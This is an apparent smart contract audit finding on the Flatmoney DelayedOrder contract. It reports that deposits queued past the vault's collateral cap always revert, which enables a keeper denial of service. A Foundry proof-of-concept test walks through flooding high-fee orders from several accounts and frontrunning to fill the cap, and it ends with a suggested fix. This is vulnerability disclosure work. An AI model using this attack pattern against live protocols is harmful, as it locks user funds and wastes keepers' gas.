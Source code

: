 Long Mossy Kestrel

high

# Pending deposits will always revert due to exceeded collateral capacity leading to a potential DoS

## Summary
When vault's maximum collateral capacity is reached, pending deposit orders in the `_announcedOrder` pool will never be executed because they would exceed maximum vault's collateral capacity and the transaction will always revert. A malicious actor can exploit this scenario by closing the maximum capacity and spanning multiple non-executable transactions (using different EOA), with a high incentive to keepers, leading to a potential DoS of keepers.

## Vulnerability Detail
When vault's maximum collateral capacity is being reached, users can still announce deposits. As mentioned [in the docs, maximum vault's collateral capacity is $5M](https://drive.google.com/file/d/1GXZfDzgUBrEgmitndew-_lTsCSFL1T9D/view).
> The Early Depositor Vault will have $5M maximum capacity. Once deposits reach $5M, no further deposits will be accepted.

To announce a deposit order, collateral tokens (rETH) are temporarily send to the `DelayedOrder` contract address and these funds will be locked until the order is executed or canceled. 

We are considering a scenario where vault's collateral capacity is about to be reached. In this case, deposits can still be announced. So, a set of deposit orders, which add up the excess of vault's maximum capacity, could be announced and queued. As soon as  some of these orders are executed and the maximum collateral capacity is reached, all the others will always revert.

## Impact
1 - Keepers can be mislead spending gas trying to execute a transaction that will always revert;
2 - Bad actors could abuse this behavior and span deposit orders, using different EOAs, with a high incentive to keepers, leading to a potential DoS while these deposit orders live.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L74

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L504

## PoC
```solidity
function test_funds_locked() public {
    // setup scenario: Collateral cap is almost being reached.
    uint256 collateralPrice = 1000e8;
    uint256 maxCollateralCap = 5e24;
    uint256 amountLeftToCollateralCap = 1000e18;
    uint256 initialCollateralCap = maxCollateralCap - amountLeftToCollateralCap;
    uint256 keeperFee = mockKeeperFee.getKeeperFee();

    uint256 aliceBalanceBefore = WETH.balanceOf(alice);
    uint256 aliceDepositAmount = 500e18;

    vm.startPrank(admin);
    vaultProxy.setStableCollateralCap(maxCollateralCap);
    announceAndExecuteDeposit({
        traderAccount: admin,
        keeperAccount: keeper,
        depositAmount: initialCollateralCap,
        oraclePrice: collateralPrice,
        keeperFeeAmount: 0
    });

    // Alice tries to deposit funds.
    // Alice's order was not executed immediately because
    // she offered a small fee to keepers.
    announceStableDeposit({
        traderAccount: alice,
        depositAmount: aliceDepositAmount,
        keeperFeeAmount: 0
    });

    // Alice's funds are temporarilly transfered to DelayedOrderModule and
    // will be transfered to the FlatcoinVault when it's executed.
    assertEq(WETH.balanceOf(alice), aliceBalanceBefore - aliceDepositAmount - keeperFee);

    // A malicious actor could flood several deposit orders with different EOA
    // and high incentive to keepers, leading to a potential DOS
    announceStableDeposit({
        traderAccount: foo,
        depositAmount: 1e6,
        keeperFeeAmount: keeperFee * 100
    });

    announceStableDeposit({
        traderAccount: bar,
        depositAmount: 1e6,
        keeperFeeAmount: keeperFee * 100
    });

    // Bob creates an order and uses his own keeper implementation to instantly.
    // execute it. So, his order "frontruns" Alice's and the maximum stable collateral
    // capacity is reached.
    announceAndExecuteDeposit({
        traderAccount: bob,
        keeperAccount: keeper,
        depositAmount: amountLeftToCollateralCap,
        oraclePrice: collateralPrice,
        keeperFeeAmount: 0
    });

    // At this point, keepers would be prioritizing orders with a high incentive fee
    // incentive fee (i.e. those created by foo and bar), leading to a potential DoS,
    // scenario, while these orders are not expired.

    // Alice's funds will be locked until her order is manually cancelled.
    vm.startPrank(alice);
    bytes[] memory priceUpdateData = getPriceUpdateData(collateralPrice);

    vm.expectRevert(
        abi.encodeWithSelector(FlatcoinErrors.DepositCapReached.selector, maxCollateralCap)
    );
    delayedOrderProxy.executeOrder{value: 1}(alice, priceUpdateData);

    // NOTE: Alice should await her order to expire and cancel it
    // manually because:
    // 1 - there is no way to cancel an order before it is expired;
    // 2 - there is no incentives for keepers cancel orders, since
    // the fees are returned to keepers when an order is cancelled.
    vm.expectRevert(FlatcoinErrors.OrderHasNotExpired.selector);
    delayedOrderProxy.cancelExistingOrder(alice);

    // Alice waits
    skip(1.5 minutes); 

    // Alice can retrieve her tokens
    delayedOrderProxy.cancelExistingOrder(alice);
    assertEq(WETH.balanceOf(alice), aliceBalanceBefore);

   // Bob can withdraw his money, opening the vault maximum capacity,
   // and repeat the described process of spanning non-executable deposit orders.
}
```

```bash
filipealves@vesla01 in ~/Developer/audits/2023-12-flatmoney-filipealvesdef/flatcoin-v1 on main [!?]
[i] $ forge test --match-test test_funds_locked
[⠆] Compiling...
[⠒] Compiling 1 files with 0.8.18
[⠆] Solc 0.8.18 finished in 8.70s
Compiler run successful!

Running 1 test for test/unit/Stable-Module/Deposit.t.sol:DepositTest
[PASS] test_funds_locked() (gas: 2000720)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.38ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Tool used
vim, Foundry

## Recommendation
Implement a tracking for `pendingDepositAmount`.  Check it in `DelayedOrder.sol::announceStableDeposit` at line 74, update when the deposit is executed and canceled to avoid non-executable deposit orders being created.

